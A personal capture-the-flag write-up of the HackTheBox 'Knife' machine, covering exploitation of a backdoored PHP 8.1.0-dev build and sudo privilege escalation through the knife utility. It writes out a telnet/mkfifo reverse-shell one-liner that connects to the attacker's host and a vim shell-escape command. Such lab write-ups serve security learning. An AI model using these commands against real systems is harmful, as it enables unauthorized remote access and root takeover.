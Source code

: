 ```yaml
---
Started: 11-07-25 | 09:04
Ended: 11-07-25 | 11:22
---
```


#CTF/HTB/Linux/Easy

# Given

Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

## IP

10.10.10.242

# Writeup

## Enumeration

I started with running Rustscan really quick to see what ports were open. I also had a full Nmap scan running in the background. I got two open ports:

- SSH(22)
- HTTP(80)

I started looking at port 80. It seemed to be a Linux based web server running `Apache/2.4.41 (Ubuntu)`. There's a website on it called `Emergent Medical Idea`.
There weren't any creds left behind in the source code, nor were there any working links. I started looking at the tech stack before going ahead with any sort of directory busting.

![](Assets/Pasted%20image%2020250711095943.png)
Aside from the version of Apache and what type of server this was, I got the technology the site was based on and version:

- PHP 8.1.0-dev

## Exploit

I ran this through `searchsploit` and got a hit on a Remote Code Execution vulnerability.

![](Assets/Pasted%20image%2020250711100152.png)
** Check out the details of the vulnerability on [exploitdb](https://www.exploit-db.com/exploits/49933)

## Foothold

Reading through the python script, it seemed use an additional request header called `User Agentt` to inject commands to the web server.
![](Assets/Pasted%20image%2020250711113836.png)

![](Assets/Pasted%20image%2020250711102856.png)

This isn't a proper shell though, so I had to create a reverse shell to my machine. I used [revshells](www.revshells.com) to generate a telnet based script and have it connect to my netcat listener.

```shell
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.16.2 4443 0<$TF | sh 1>$TF
```

This got me a basic shell onto the web server. I then had to upgrade it.

The user flag is in james's home directory

![](Assets/Pasted%20image%2020250711103147.png)

## Privilege Escalation

Now that I was in the web server as `james` I needed to escalate my privileges to get to `root`. I started with checking james's permissions on the server with `sudo -l`. This shows that james can run a script as root

![](Assets/Pasted%20image%2020250711103220.png)

I tried to add code to the file `knife`, and tried to replace it. Those didnt really work. So I had to google what knife was (and I tried hard to not look at writeups). I looked through gtfobins, found knife, and a simple way to escalate my privileges on this machine.

![](Assets/Pasted%20image%2020250711111918.png)

This got my shell upgraded to root, and I proceeded to get the flag in the home directory.

![](Assets/Pasted%20image%2020250711112110.png)

# Extra Notes

What if GTFO bins didn't have a privesc for Knife?

I first would need to know what knife is in the first place. Googling this got me [here](https://docs.chef.io/workstation/knife_setup/). TLDR: Knife is a command line utility that was created to communicate with Chef, which is a basically an automation platform.

## VIM Escape

The `knife data bag` subcommand allows users to interact with global variables as JSON objects.

I looked through the knife docs, and tried to create a bag, which I could hopefully edit with vim later. That didn't really work. 

![](Assets/Pasted%20image%2020250711120321.png)

So I tried to get the same command into vim like 0xdf does in his walkthrough, that didn't work either despite me restarting the server. 

Ideally, we should be able to edit the file on vim, and then run commands through vim's command line by running

```shell
!/bin/bash
```

# References

[0xdf - knife](https://0xdf.gitlab.io/2021/08/28/htb-knife.html#shell-as-root)